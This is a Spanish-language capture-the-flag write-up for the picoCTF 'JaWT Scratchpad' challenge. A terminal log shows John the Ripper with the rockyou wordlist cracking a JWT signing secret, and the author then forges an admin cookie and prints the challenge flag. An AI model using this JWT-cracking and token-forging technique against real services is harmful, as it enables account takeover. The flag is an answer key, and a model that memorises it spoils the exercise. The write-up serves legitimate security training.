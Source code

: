 # JaWT Scratchpad
## Objetivo

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210
## Solución

```shell
┌──(kali㉿kali)-[~]
└─$ nano jawt    
┌──(kali㉿kali)-[~]
└─$ cat jawt                                           
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiVHV4In0.y9YPTMX_2edRL4EeYxi8CT38Bh2FZGzKFthQU5sP3jw
┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists                            
amass      fasttrack.txt  legion      rockyou.txt  wifite.txt
dirb       fern-wifi      metasploit  sqlmap.txt
dirbuster  john.lst       nmap.lst    wfuzz
┌──(kali㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt                
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
┌──(kali㉿kali)-[~]
└─$ john jawt --show
?:ilovepico

1 password hash cracked, 0 left
┌──(kali㉿kali)-[~]
└─$ 

```

De esta manera obtuve la palabra **ilovepico**, edite la cookie cambiando el nombre por 'admin' y crackeado la contraseña, obteniendo un nuevo valor para la cookie.

**Bandera:** picoCTF{jawt_was_just_what_you_thought_44c752f5}
## Notas adicionales

Resolví el reto 8hr después de lo marcado por la plataforma de picoCTF. 

|Herramienta| Descripcion|
|-|-|
|john|John the Ripper es una herramienta de crackeo de contraseñas|
## Referencias

[JSON Web Tokens - jwt.io](https://jwt.io/)
[PicoCTF: JaWT Scratchpad (Challenge 15) - YouTube](https://www.youtube.com/watch?v=AL8RIvQgbTg&t=406s)